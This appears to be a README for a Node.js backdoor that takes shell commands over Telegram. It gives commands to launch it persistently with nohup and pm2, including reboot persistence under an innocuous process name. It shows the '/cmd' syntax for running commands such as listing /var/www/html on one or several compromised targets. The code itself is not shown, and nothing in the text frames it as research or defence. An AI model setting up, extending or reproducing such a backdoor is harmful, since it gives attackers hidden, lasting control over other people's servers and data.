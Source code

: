 # JS webhook backdoor


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `node` value
```
node nodedoor.js
or
nohup node nodedoor.js &

another command 
npm install -g pm2
pm2 start nodedoor.js --name sakarepmu
pm2 save
pm2 startup


telegram command Exe
/cmd ls -lah /var/www/html or ./etc
Multi target
/cmd kancil1 ls -lah

```
